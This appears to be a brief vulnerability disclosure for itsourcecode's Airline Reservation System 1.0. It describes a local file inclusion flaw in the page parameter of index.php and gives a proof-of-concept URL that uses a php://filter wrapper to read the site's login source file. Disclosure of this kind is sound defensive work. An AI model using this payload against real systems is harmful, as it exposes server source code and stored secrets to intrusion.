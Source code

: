 # Vendor

itsourcecode

# Product

Airline Reservation System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/03/Airline-Reservation-System-PHP-Project-Source-Code.zip

# Description

In the site's index.php page, due to insufficient filtering of the page parameter, an attacker can construct a special POC to achieve local file inclusion.
<img width="1307" alt="image" src="https://github.com/user-attachments/assets/871c0497-0006-4dfa-829a-a9dad68d3685">

# Poc

```
http://192.168.17.22/index.php?page=php://filter/convert.base64-encode/resource=login
```
